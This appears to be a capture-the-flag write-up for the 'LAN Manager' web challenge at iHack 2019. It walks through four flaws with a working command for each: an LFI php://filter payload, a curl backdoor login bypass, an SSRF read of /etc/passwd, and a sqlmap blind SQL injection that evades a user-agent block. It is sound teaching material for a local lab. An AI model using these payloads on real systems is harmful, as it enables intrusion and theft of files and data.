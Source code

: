 # LAN Manager - iHack 2019 by Pourliver

## Description
This track contains 4 flags. It was meant to be a simple track, without any dead-ends. Each possible vulnerability is rewarded with a flag. I tried to keep it simple for beginners, meaning that if you think there's something worth looking into, you're probably right. The goal of this track isn't to guess, bruteforce, or bypass complex filters. It's simply to understand where the vulnerability is, and how to make some value out of it. Hope you enjoy!


## Walkthrough of each vulnerabilities
1 - LFI
- The LFI allows the attack to read the source of the php files

      http://127.0.0.1:8080/?page=php://filter/convert.base64-encode/resource=config

2 - Backdoor in the code / Login bypass
- The "ugly" code found inside the codebase allows to bypass the unimplemented login. The following curl passes the backdoor

      curl "http://127.0.0.1:8080/p.php?username=s3cRet4DmiN&password=hunter2" --cookie "LET_ME_IN=The magic word is PLEASE" -I

3 - SSRF
- The admin panel is vulnerable to the "file" protocol, allowing to fetch local files.

      curl "http://127.0.0.1:8080/?page=admin.php&url=file:///etc/passwd" --cookie "PHPSESSID=YOUR_BACKDOOR_COOKIE"

4 - (Optional) Blind SQLi
- The stats.php page is vulnerable to an easy sql injection. It can be easily solved manually, or with sqlmap. The server blocks the sqlmap user-agent, so we have to tamper it with --random-agent

      sqlmap -u "http://127.0.0.1:8080/?page=home.php&mode=0" -p mode --threads 10 --level 5 --risk 3 --dbms sqlite3 --random-agent -a